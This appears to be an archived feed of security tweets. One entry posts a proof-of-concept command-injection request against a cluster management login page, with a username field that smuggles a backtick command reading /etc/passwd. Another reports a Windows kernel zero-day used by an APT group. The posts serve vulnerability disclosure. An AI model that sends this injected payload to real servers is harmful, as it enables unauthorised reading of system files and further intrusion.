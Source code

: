 POC:
POST /login.php

op=login&amp;username=;`cat /etc/passwd`&amp;password="

Ref:https://t.co/8bV9s3xT4x https://t.co/s0IXjkqAKn
</blockquote>

* https://github.com/NS-Sp4ce/Inspur/tree/master/ClusterEngineV4.0%20Vul

<table><tr>
<td><img src="pictures/fa2e62a6f8f89c854605e6733e6ed6f8594872dbd5210e4fad59b694a440b953.jpg" alt="fa2e62a6f8f89c854605e6733e6ed6f8594872dbd5210e4fad59b694a440b953.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>224</code></td>
</tr></table>

---

# pentest_swissky
**https://twitter.com/pentest_swissky/status/1366979648907743232 _at 2021-03-03, 05:12:00_**
<blockquote>
WINDOWS KERNEL ZERO-DAY EXPLOIT (CVE-2021-1732) IS USED BY BITTER APT IN TARGETED ATTACK https://t.co/gEMIg0vxoB
</blockquote>

